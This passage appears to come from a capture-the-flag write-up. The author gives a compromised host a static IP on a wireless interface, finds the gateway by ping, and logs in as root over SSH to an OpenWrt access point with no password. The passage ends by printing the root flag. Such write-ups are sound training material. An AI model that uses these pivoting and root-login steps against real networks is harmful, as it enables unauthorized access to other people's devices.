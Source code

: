 ### Assigning Static IP to Interface

There were probably a number of ways to achieve this step. `netplan` was installed on the machine and could have been used. To keep things simple I used `ifconfig` to assign a static IP address to the interface. I guessed the network would probably be on 192.168.1.0/24 which turned out to be correct.

```
root@attica01:/tmp# ifconfig wlan0 192.168.1.20 netmask 255.255.255.0
ifconfig wlan0 192.168.1.20 netmask 255.255.255.0
```

### Testing Connection to Gateway

Gateway addreses usually end in `.1` or `.254`. Pinging 192.168.1.1 was successful so its probably the gateway.

```
root@attica01:/tmp# ping -c 1 192.168.1.1
ping -c 1 192.168.1.1
PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=0.221 ms

--- 192.168.1.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.221/0.221/0.221/0.000 ms
```

### Testing SSH to Gateway

When testing the SSH connection it automatically logged in as root without asking for any credentials. The access point was using OpenWrt. Root flag captured.

```
root@attica01:/tmp# ssh root@192.168.1.1
ssh root@192.168.1.1
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.


BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# ls
ls
root.txt
root@ap:~# cat root.txt
cat root.txt
fadd0ff7102950454dfbed8179d29622
root@ap:~# 
```